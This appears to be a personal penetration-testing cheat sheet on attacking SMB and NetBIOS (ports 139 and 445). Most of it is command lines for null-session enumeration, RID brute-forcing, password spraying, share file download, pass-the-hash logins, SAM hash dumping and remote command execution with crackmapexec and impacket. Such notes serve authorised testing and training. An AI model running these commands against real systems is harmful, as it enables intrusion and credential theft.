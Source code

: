 +++
title = "Pentest - SMB p 139,445"
author = ["svejk"]
tags = ["crackmapexec", "smbmap", "smb", "pentest"]
draft = false
+++

[HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)


## Port 139 [NetBIOS]({{< relref "netbios.md" >}}) {#port-139-netbios--netbios-dot-md}

<span class="underline">NetBIOS</span> is `Network Basic Input Output System`, which is a software protocol that allows applications, PCs, and Desktops on a local area network (LAN) to communicate with network hardware and to transmit data across the network.


## Port 445 [SMB - Server Message Block]({{< relref "smb_server_message_block.md" >}}) {#port-445-smb-server-message-block--smb-server-message-block-dot-md}

While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. SMB stands for ‘Server Message Blocks’.


### SMB {#smb}

Server Message Block (SMB) is a client-server protocol that regulates access to files and entire directories and other network resources such as printers, routers, or interfaces released for the network.


## Server Enumeration {#server-enumeration}

Search for hosts:

```shell { linenos=true, linenostart=1 }
nbtscan -r 192.168.1.1/24
```


### SMB information {#smb-information}

```shell { linenos=true, linenostart=1 }
enum4linux -a [-u "<username>" -p "<passwd>"] <IP>
enum4linux-ng -A [-u "<username>" -p "<passwd>"] <IP>

# connect to rpc
rpcclient -U "" -N <IP> #No creds
rpcclient //machine.htb -U domain.local/USERNAME%754d87d42adabcca32bdb34a876cbffb  --pw-nt-hash
rpcclient -U "username%passwd" <IP> #With creds
```

```sh
smbclient //10.10.10.10/Public -U 'anonymous' -N
```

See also impacket: samrdump, rpcdump


### Users, Groups {#users-groups}

```shell { linenos=true, linenostart=1 }
crackmapexec smb 10.10.10.10 --users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 --groups --loggedon-users [-u <username> -p <password>]
crackmapexec smb 10.10.10.10 -u usernames.txt -p ‘’ --continue-on-success


ldapsearch -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "(&(objectclass=user))" -h 10.10.10.10 | grep -i samaccountname: | cut -f 2 -d " "

```


### Anonymous logon {#anonymous-logon}

```sh
crackmapexec smb <host> -u 'a' -p '' --shares
```


### List files {#list-files}

```sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus
```


### Download files {#download-files}

```sh
crackmapexec smb <host> -u 'a' -p '' -M spider_plus -o DOWNLOAD_FLAG=TRUE EXCLUDE_DIR=IPC$
```


### IPC$ Share {#ipc-share}

With an anonymous null session you can access the IPC$ share and interact with services exposed via named pipes. The enum4linux utility within Kali Linux is particularly useful; with it, you can obtain the following:

-   Operating system information
-   Details of the parent domain
-   A list of local users and groups
-   Details of available SMB shares
-   The effective system security policy

RID cycling with `crackmapexec`

```shell { linenos=true, linenostart=1 }
crackmapexec smb <ip> -u 'a' -p '' -d <domain> --rid-brute |grep User
```

then, eg, check for UF_DONT_REQUIRE_PREAUTH and [AS-REP Roasting]({{< relref "as_rep_roasting.md" >}}). Then attempt `crackmapexec` with smb and username password combinations.  Passwords from list (eg rockyou), customized list, usernames as passwords (backwards and forwards, case change, etc).


### SMB Command Execution {#smb-command-execution}

```shell { linenos=true, linenostart=1 }
impacket-smbexec administrator:'<password>'@machine.htb
```


#### Dump sam hashes {#dump-sam-hashes}

```shell { linenos=true, linenostart=1 }
crackmapexec smb <IP> -u <username> -p "PASSWORD" --sam
```


#### wmiexec {#wmiexec}

```shell { linenos=true, linenostart=1 }
impacket-wmiexec <user>@<ip> -hashes "<user hash>"
```
